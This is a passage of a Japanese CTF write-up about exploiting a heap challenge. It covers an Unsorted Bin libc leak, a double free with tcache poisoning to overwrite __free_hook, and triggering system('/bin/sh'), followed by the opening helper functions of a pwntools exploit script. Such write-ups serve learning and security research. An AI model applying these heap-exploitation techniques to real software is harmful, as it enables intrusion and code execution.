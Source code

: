 ### Unsorted Bin経由のlibc leak

Unsorted Binに入っているチャンクは次のような形になる(`---`はプログラムから見たチャンク境界)。

```
chunk1 - 0x10  :       (prev_size)       | 71 01 00 00 00 00 00 00
------------------------------------------------------------------
chunk1         :    (main_arena->top)    | (main_arena->top)
chunk1 + 0x10  : ...
...
chunk1 + 0x100 : 00 00 00 00 00 00 00 00 | 61 00 00 00 00 00 00 00
chunk2         : ...
...
------------------------------------------------------------------
```

ここで`chunk1`はfreeされてしまったので既にここを指すポインタは生きていない。よってこの状態では`main_arena->top`を指すアドレスは手に入らない。そこで`malloc(0x100)`のようにサイズ0x110のチャンクを切り出すmallocを発動させる。すると`chunk1`の元々のサイズが0x110だったのでこの部分が綺麗に切り出されてUnsorted Binは`chunk2`に繋がり、`chunk2`のfd, bkは`main_arena->top`を指すようになる。
`chunk2`は未だにfreeされておらずポインタが生きているのでここをshowで読めばlibc leakが出来る。

### いつもの

libc leakが出来たのであとは`__free_hook`を書き換えるだけである。`chunk2`を指すポインタはまだ生きている上にUnsorted Binに`chunk2`が繋がれているのでサイズ0x60(以下)のチャンクを切り出すようなmallocを発動させれば`chunk2`を指すポインタが別のインデックスとして手に入る。
というわけでこの2つをdeleteすればDouble Freeになるのであとはいつものtcache poisoningで書き換える。
ちなみにUnsorted Binに放り込む際に用意した下のチャンクに`"/bin/sh"`を仕込んでおけばわざわざ新しいチャンクを確保しなくてもここのdelete時に`system("/bin/sh")`が発動する。

## Code

※実際に要求したサイズ等は↑の解説で使った数値と異なっているで注意

```python
from pwn import p64, u64, process, ELF


def select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(sel)


def create(s, size, desc=b"junk", name=b"unko", phone=b"114514"):
    select(s, b"1")
    s.recvuntil(b"Length: ")
    s.sendline(str(size))
    s.recvuntil(b"Phone Number: ")
    s.sendline(phone)
    s.recvuntil(b"Name: ")
    s.send(name)
    s.recvuntil(b"Description: ")
    s.send(desc)
    s.recvuntil(b"index=")
    res = s.recvline().rstrip()
    return int(res)


def show(s, idx):
    select(s, b"2")
    s.recvuntil(b"Index: ")
    s.sendline(str(idx))
    s.recvuntil(b"Description : ")
    res = s.recvline().rstrip()
    return res

```